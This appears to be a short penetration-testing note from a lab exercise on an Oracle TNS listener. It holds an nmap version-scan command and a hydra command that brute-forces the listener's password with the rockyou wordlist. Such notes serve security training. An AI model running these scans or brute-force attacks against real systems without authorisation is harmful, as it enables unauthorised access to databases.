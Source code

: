 Version
```
nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82
```
![[Pasted image 20210518194444.png]]
Brute Force Listener
```
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener
```
![](../Attachments/Pasted%20image%2020210518194919.png)